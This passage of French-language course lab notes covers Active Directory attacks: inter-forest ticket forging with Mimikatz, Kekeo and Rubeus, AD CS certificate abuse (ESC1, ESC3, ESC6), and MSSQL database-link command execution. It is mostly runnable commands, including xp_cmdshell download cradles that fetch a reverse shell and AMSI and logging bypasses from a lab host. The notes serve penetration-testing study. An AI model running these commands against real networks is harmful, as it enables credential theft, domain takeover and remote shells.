   → Invoke-Mimikatz -Command '"lsadump::trust /patch"'
```

```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:eu\euvendor$"'
```

**Forger un TGT inter-forêts**

```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /rc4:2756bdf7dd8ba8e9c40fe60f654115a0 /service:krbtgt /target:eurocorp.local /ticket:C:\AD\Tools\trust_forest_tkt.kirbi" "exit"
```

#### Utilisation de Kekeo

**Demander un TGS pour un partage de la forêt distante**

```powershell
.\asktgs.exe C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi CIFS/eurocorp-dc.eurocorp.local
```

**Injecter le ticket puis accéder au partage**

```powershell
.\kirbikator.exe lsa .\CIFS.eurocorp-dc.eurocorp.local.kirbi
ls \\eurocorp-dc.eurocorp.local\SharedwithDCorp\
```

#### Utilisation de Rubeus

Réutiliser le TGT forgé pour demander un TGS sur le serveur distant :

```powershell
Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi /service:cifs/eurocorp-dc.eurocorp.local /dc:eurocorp-dc.eurocorp.local /ptt
ls \\eurocorp-dc.eurocorp.local\SharedwithDCorp\
```

**Énumérer les partages du domaine**

```powershell
net view \\<domain>  
# This can enum the shares
```

**Objectif du laboratoire 20**

- Avec des privilèges Domain Admin sur `dollarcorp.moneycorp.local`, accéder au partage `SharedwithDCorp` du contrôleur de domaine de la forêt `eurocorp.local`.

## Active Directory Certificate Services (AD CS)

AD CS fournit les services d'infrastructure à clés publiques (PKI) dans Active Directory. Les certificats peuvent être utilisés pour l'authentification, le chiffrement et la signature.

Notions à connaître :

- **CA (Certification Authority)** : autorité de certification qui délivre les certificats.
- **Certificate** : certificat délivré à un utilisateur ou à une machine.
- **CSR (Certificate Signing Request)** : demande de certificat envoyée par un client à l'autorité.
- **Certificate Template** : modèle qui définit les paramètres du certificat, les droits d'inscription, les usages et la durée de validité.
- **EKU (Extended Key Usage)** : usages autorisés pour le certificat, identifiés par des OID.


Les notes recensent plusieurs catégories d'abus possibles :

```
- Extract user and machine certificates
- Use certificates to retrieve NTLM hash
- User and machine level persistence
- Escalation to Domain Admin and Enterprise Admin
- Domain persistence
```





**Énumérer les autorités de certification avec Certify**

[Certify sur GitHub](https://github.com/GhostPack/Certify)

```powershell
Certify.exe cas
```

**Énumérer les modèles de certificats**

```powershell
Certify.exe find
```

**Rechercher les modèles vulnérables**

```powershell
Certify.exe find /vulnerable
```

Les notes indiquent plusieurs prérequis communs aux scénarios ESC1, ESC3 et ESC6 :

```
- CA grants normal/low-privileged users enrollment rights
- Manager approval is disabled
- Authorization signatures are not required
- The target template grants normal/low-privileged users enrollment rights
```

Ces éléments doivent être vérifiés sur l'autorité de certification et sur le modèle ciblé avant de conclure à une configuration exploitable.

### AD CS - ESC3

Le scénario ESC3 repose sur deux modèles :

- `SmartCardEnrollment-Agent` permet aux utilisateurs du domaine de s'inscrire et possède l'EKU `Certificate Request Agent`.
- `SmartCardEnrollment-Users` impose une exigence de stratégie d'émission liée à Certificate Request Agent et autorise l'authentification du domaine.

**Identifier le modèle Agent vulnérable**

```powershell
Certify.exe find /vulnerable
```

**Rechercher les modèles disposant de l'EKU Client Authentication**

```powershell
Certify.exe find /json /outfile:C:\AD\Tools\file.json ((Get-Content C:\AD\Tools\file.json | ConvertFrom-Json).CertificateTemplates | ? {$_.ExtendedKeyUsage -contains "1.3.6.1.5.5.7.3.2"}) | fl *
```

#### Élévation vers Domain Admin

**Demander un certificat Certificate Request Agent**

```powershell
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA/template:SmartCardEnrollment-Agent
```

Le certificat reçu est ensuite converti au format PFX. Les notes utilisent le fichier `esc3agent.pfx` pour la demande suivante.

**Demander un certificat au nom du compte Administrator du domaine**

```powershell
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA/template:SmartCardEnrollment-Users /onbehalfof:dcorp\administrator /enrollcert:esc3agent.pfx /enrollcertpw:SecretPass@123
```

Le certificat obtenu est converti en PFX, puis utilisé pour demander un TGT du compte ciblé :

```powershell
Rubeus.exe asktgt /user:administrator /certificate:esc3user-DA.pfx /password:SecretPass@123 /ptt
```

#### Élévation vers Enterprise Admin

**Demander un certificat au nom du compte Administrator du domaine parent**

```powershell
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Users /onbehalfof:moneycorp.local\administrator /enrollcert:esc3agent.pfx /enrollcertpw:SecretPass@123
```

**Demander le TGT Enterprise Admin et l'injecter**

```powershell
Rubeus.exe asktgt /user:moneycorp.local\administrator /certificate:esc3user.pfx /dc:mcorp-dc.moneycorp.local /password:SecretPass@123 /ptt
```

### AD CS - ESC6

Le scénario ESC6 concerne une autorité de certification dont le flag `EDITF_ATTRIBUTESUBJECTALTNAME2` est activé. Les notes indiquent qu'il devient alors possible de demander un certificat pour un autre utilisateur à partir d'un modèle autorisant l'inscription des utilisateurs concernés.

**Énumérer les modèles et les paramètres de l'autorité**

```powershell
Certify.exe find
```

Le modèle `CA-Integration` accorde le droit d'inscription au groupe `RDPUsers` dans le laboratoire.

**Demander un certificat avec le nom alternatif du compte Administrator**

```powershell
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"CA-Integration" /altname:administrator
```

**Utiliser le certificat pour demander un TGT**

```powershell
Rubeus.exe asktgt /user:administrator /certificate:esc6.pfx /password:SecretPass@123 /ptt
```

### AD CS - ESC1

Le modèle `HTTPSCertificates` possède la valeur `ENROLLEE_SUPPLIES_SUBJECT` dans l'attribut `msPKI-Certificates-Name-Flag`. Les notes indiquent que le groupe `RDPUsers` dispose du droit d'inscription sur ce modèle.

**Identifier les modèles autorisant la fourniture du sujet par le demandeur**

```powershell
Certify.exe find /enrolleeSuppliesSubject
```

**Demander un certificat avec le nom alternatif du compte Administrator**

```powershell
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:administrator
```

**Utiliser le certificat pour demander un TGT**

```powershell
Rubeus.exe asktgt /user:administrator /certificate:esc1.pfx /password:SecretPass@123 /ptt
```

**Objectif du laboratoire 21**

- Vérifier si AD CS est déployé dans la forêt cible.
- Identifier les modèles de certificats vulnérables ou abusables.
- Étudier les scénarios d'élévation vers Domain Admin et Enterprise Admin.

## Abus des serveurs MSSQL

Les serveurs Microsoft SQL Server sont fréquemment présents dans les domaines Windows. Les droits d'accès aux bases de données peuvent être associés à des comptes Active Directory, et les liens entre serveurs SQL peuvent permettre d'accéder à d'autres instances.

Les notes utilisent **PowerUpSQL** pour la découverte et l'énumération.

[PowerUpSQL sur GitHub](https://github.com/NetSPI/PowerUpSQL)

**Découvrir les instances SQL du domaine**

```powershell
Get-SQLInstanceDomain
```

**Tester l'accessibilité des instances**

```powershell
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

**Collecter les informations sur les serveurs SQL**

```powershell
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

### Database Links

Un Database Link permet à un serveur SQL d'accéder à une source de données externe, notamment une autre instance SQL Server.

Les notes rappellent que :

- Les liens entre serveurs SQL peuvent permettre l'exécution de procédures stockées sur le serveur distant.
- Les liens peuvent également fonctionner au travers de relations d'approbation entre forêts.
- Plusieurs liens peuvent être imbriqués : une instance peut pointer vers une autre instance, elle-même liée à une troisième.

**Rechercher les liens vers des serveurs distants**

Avec PowerUpSQL :

```powershell
Get-SQLServerLink -Instance dcorp-mssql -Verbose
```

Avec une requête SQL :

```powershell
select * from master..sysservers
```

**Interroger un serveur lié avec OPENQUERY**

```powershell
select * from openquery("dcorp-sql1",'select * from master..sysservers')
```

**Énumérer les liens SQL avec PowerUpSQL**

```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose
```

**Enchaîner plusieurs liens avec OPENQUERY**

```powershell
select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt",''select * from master..sysservers'')')
```

### Exécution de commandes via les liens SQL

L'exécution de commandes système dépend notamment de la configuration de `xp_cmdshell` et de `rpcout`. Les notes précisent que `rpcout` est désactivé par défaut et présentent son activation lorsque les conditions le permettent.

**Configurer xp_cmdshell sur l'instance distante**

```powershell
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"
```

**Exemple de requête imbriquée pour interroger la version SQL et appeler xp_cmdshell**

```powershell
select * from openquery("192.168.23.25",'select * from openquery("db-sqlsrv",''select @@version as version;exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''''http://192.168.100.X/Invoke-PowerShellTcp.ps1'''')"'')')
```

**Cartographier les liens depuis l'instance us-mssql**

```powershell
Get-SQLServerLinkCrawl -Instance us-mssql.us.techcorp.local
```

**Cibler une instance précise avec QueryTarget**

```powershell
Get-SQLServerLinkCrawl -Instance us-mssql.us.techcorp.local -Query 'exec master..xp_cmdshell ''whoami''' -QueryTarget db-sqlsrv
```

**Exécuter une requête sur l'instance eu-sql**

```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'" -QueryTarget eu-sql
```

**Exemple d'exécution via plusieurs liens imbriqués**

```powershell
select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt",''select * from openquery("eu-sql.eu.eurocorp.local",''''select @@version as version;exec master..xp_cmdshell "powershell whoami)'''')'')')
```

**Objectif du laboratoire 22**

- Obtenir un accès à un serveur SQL de la forêt `eurocorp` en étudiant l'abus des Database Links depuis `dcorp-mssql`.

**Dernier exemple présent dans les notes source**

Le dernier bloc source est incomplet : il est conservé pour ne pas perdre l'extrait, mais ne doit pas être exécuté tel quel sans retrouver la suite de la commande d'origine.

```powershell
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.X/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.X/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.X/Invoke-PowerShellTcpEx.ps1)
```

## Points de vigilance sur les notes source

- Les commandes et leurs paramètres sont conservés depuis le document d'origine ; certains noms de comptes, chemins et secrets sont propres au laboratoire.
- Quelques extraits semblent contenir des erreurs de syntaxe ou des éléments incomplets. Ils sont signalés plutôt que corrigés silencieusement.
- Les 13 illustrations du chapitre source sont conservées.
